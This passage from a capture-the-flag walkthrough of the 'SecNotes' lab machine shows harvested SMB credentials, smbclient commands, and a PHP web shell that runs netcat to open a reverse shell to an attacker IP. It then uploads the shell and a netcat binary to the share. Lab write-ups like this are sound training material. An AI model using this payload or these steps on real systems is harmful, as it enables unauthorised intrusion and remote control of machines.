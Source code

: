 ![x](9-screenshots-storage/credentials.png)

Now we can login to the smb server on port 445.

Share name to connect to: 

```txt
\\secnotes.htb\new-site
```

Credentials:

```txt
user: tyler 
pass: 92g!mA8BGjOirkL%OG*&
```

Command to run:

```txt
smbclient \\\\10.10.10.97\\new-site -U tyler
```

Now we can start on a reverse shell to have better control over the machine.

Create a php file with the following code:

```txt
<?php
system('nc.exe -e cmd.exe 10.10.14.4 4321')
?>
```

 - change the IP address to match your attacking machine

on your attacker machine, download a static netcat binary for windows:

```txt
wget https://github.com/int0x33/nc.exe/raw/master/nc.exe
```

we can upload the reverse shell payload and the static binary to the smb server using the following commands:

```txt
put revshell.php
put nc.exe
```
